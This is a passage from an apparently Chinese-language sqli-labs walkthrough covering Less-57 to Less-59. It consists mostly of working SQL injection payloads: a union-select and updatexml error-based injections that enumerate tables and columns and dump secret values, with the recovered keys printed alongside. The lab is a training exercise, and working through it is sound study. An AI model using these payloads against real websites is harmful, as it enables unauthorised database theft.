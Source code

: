 ```

#爆数据，取/secret_****/段为过关数据
?id=0" union select 1,database(),group_concat(0x7e,sessid,0x7e,secret_WCBG) from 4wlhf91tdn --+
```

## Less-58

**报错注入（五次限制）-'**

#### 

```
#获得表名：之前已经知道数据库的名字是challenges

?id=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='CHALLENGES') ),1)--+

#获取字段：
?id=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from Information_schema.columns where table_name='rropvsv2k3' )),1)--+

 #获取字段的值：
 ?id=1' and updatexml(1,concat(0x7e,(select group_concat(secret_NP44) from challenges.rropvsv2k3 )),1)--+

 mNPc5dq8hrv47LdDXgFFjiJe
```

## Less-59

**报错注入（五次限制）-数字型**

#### 

```
#获得表名：

?id=1 and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='CHALLENGES') ),1)--+

#获取字段：
?id=1 and updatexml(1,concat(0x7e,(select group_concat(column_name) from Information_schema.columns where table_name='jzhybgbqrz' )),1)--+

 #获取字段的值：
 ?id=1 and updatexml(1,concat(0x7e,(select group_concat(secret_F0VL) from challenges.jzhybgbqrz )),1)--+

 V4AyD7JBzbT2AdCUcw1OlmAg
```

## Less-60
